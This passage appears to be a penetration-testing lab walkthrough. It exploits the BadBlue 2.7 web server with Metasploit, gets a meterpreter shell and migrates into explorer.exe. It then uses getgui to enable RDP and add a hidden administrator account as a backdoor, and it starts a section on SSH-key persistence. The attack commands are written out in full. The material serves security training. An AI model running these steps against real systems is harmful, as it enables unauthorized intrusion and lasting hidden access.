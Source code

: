 This section demonstrates how to fingerprint and exploit a vulnerable application on a target machine and maintain access using Remote Desktop Protocol (RDP).

**Objective:** Exploit the application and maintain access using RDP.

**Gain access to the system**

```shell
nmap -sV <target_IP>
searchsploit badblue 2.7
service postgresql start && msfconsole
use exploit/windows/http/badblue_passthru
set RHOSTS <target_IP>
exploit
# We have successfully exploited the target vulnerable application (badblue) and received a meterpreter shell.
pgrep explorer
migrate <process id>
sysinfo
```

**Maintain Access**

We have successfully migrated into the explorer.exe process. We are going to maintain access by RDP. We will be creating a user and adding that user to the Administrators group. All this can be done using the `getgui` meterpreter command.

The `getgui` command makes the below changes to the target machine:

- Enable RDP service if it’s disabled
- Creates new user for an attacker
- Hide user from Windows Login screen
- Adding created user to "Remote Desktop Users" and "Administrators" groups

```shell
run getgui -e -u <username> -p <password>
```

Running getgui command to gain remote access:

```shell
 xfreerdp /u:<username> /p:<password> /v:<target_IP>
 cmd
 whoami 
```

<br>

## 7. Linux Persistence

### 7.1. Persistence via SSH Keys - Maintaining Access

**Objective:** Maintain access on the target machine after the credentials are modified. Use SSH related artifacts for this. Retrieve flag from the target machine.

The SSH login credentials are provided in the challenge description:
- Username: student
- Password: password
